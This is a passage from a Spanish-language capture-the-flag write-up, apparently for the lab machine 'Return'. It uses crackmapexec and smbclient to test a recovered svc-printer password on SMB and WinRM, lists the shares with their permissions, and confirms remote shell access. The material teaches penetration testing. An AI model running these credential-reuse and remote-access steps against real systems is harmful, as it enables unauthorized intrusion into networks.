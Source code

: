 
- Vamos a ver si las credenciales se reutilizan y podemos ver recursos compartidos por `smb`.

```bash
❯ crackmapexec smb 10.129.95.241 -u svc-printer -p '1edFg43012!!'
SMB         10.129.95.241   445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.129.95.241   445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
```

- Ahora podemos ver los recursos compartidos por `smb`.

```bash
❯ smbclient -L //10.129.95.241/ -U svc-printer
Password for [WORKGROUP\svc-printer]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

- Pero como tal no hay un recursos.

```bash
❯ crackmapexec smb 10.129.95.241 -u svc-printer -p '1edFg43012!!' --shares
SMB         10.129.95.241   445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.129.95.241   445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.129.95.241   445    PRINTER          [+] Enumerated shares
SMB         10.129.95.241   445    PRINTER          Share           Permissions     Remark
SMB         10.129.95.241   445    PRINTER          -----           -----------     ------
SMB         10.129.95.241   445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.129.95.241   445    PRINTER          C$              READ,WRITE      Default share
SMB         10.129.95.241   445    PRINTER          IPC$            READ            Remote IPC
SMB         10.129.95.241   445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.129.95.241   445    PRINTER          SYSVOL          READ            Logon server share 
```

## Shell as svc-printer

- Si verificamos si las credenciales se reutilizan para conectarnos con `evil-winrm` vemos que si. 

```bash
❯ crackmapexec winrm 10.129.95.241 -u svc-printer -p '1edFg43012!!'
SMB         10.129.95.241   5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.129.95.241   5985   PRINTER          [*] http://10.129.95.241:5985/wsman
WINRM       10.129.95.241   5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```
